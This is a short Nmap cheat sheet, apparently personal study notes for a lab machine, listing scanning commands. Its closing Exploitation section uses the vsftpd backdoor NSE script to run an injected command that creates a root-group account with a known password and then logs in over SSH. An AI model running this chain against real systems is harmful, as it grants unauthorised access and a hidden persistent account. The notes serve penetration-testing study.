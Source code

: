```yaml
---
layout: post
title: 'Nmap'
category: notes
permalink: 'notes/nmap'
---
```


## Table of Contents
* [Host Discovery](#host-discovery)
* [Port Scanning](#port-scanning)
* [Version Scanning](#version-scanning)
* [OS Fingerprinting](#os-fingerprinting)
* [Vulnerability Scanning](#vulnerability-scanning)
* [Exploitation](#exploitation)

## Host Discovery
```bash
nmap -sn 10.10.10.0/24
nmap -sn 10.10.10.0/24 --packet-trace
nmap -sn 10.10.10.0/24 -n
```

## Port Scanning
```bash
nmap 10.10.10.6 -p0-65535 -sT
nmap 10.10.10.6 -p0-65535 -sU
nmap 10.10.10.6 -p0-65535 -sT -Pn
nmap 10.10.10.6 -p0-65535 -sT --reason
nmap 10.10.10.6 -p0-65535 -sT --badsum
nmap 10.10.10.6 -p0-65535 -sS
```

## Version Scanning
```bash
nmap -sV 10.10.10.6
nmap -sV 10.10.10.6 -p T:21,22,80,443,1337
nmap -sV 10.10.10.6 -p U:53,69,123,161
nmap -sV 10.10.10.6 -Pn
nmap -A 10.10.10.6
```

## OS Fingerprinting
```bash
nmap -O 10.10.10.6
nmap -O 10.10.10.6 -T1
nmap -O 10.10.10.6 -T5
nmap -A 10.10.10.6
```

## Vulnerability Scanning
```bash
nmap --script vuln 10.10.10.6
ls /usr/share/nmap/scripts/
nmap -sC 10.10.10.6
```

## Exploitation
```bash
nmap --script vuln 10.10.10.6
nmap --script-help ftp-vsftpd-backdoor
echo 'cmd="useradd -g root -s /bin/bash ghost && echo ghost:boo | chpasswd"' > /home/victor/demo/haunt.txt
nmap --script ftp-vsftpd-backdoor --script-args-file=/home/victor/demo/haunt.txt 10.10.10.6 -p21
ssh ghost@10.10.10.6
```

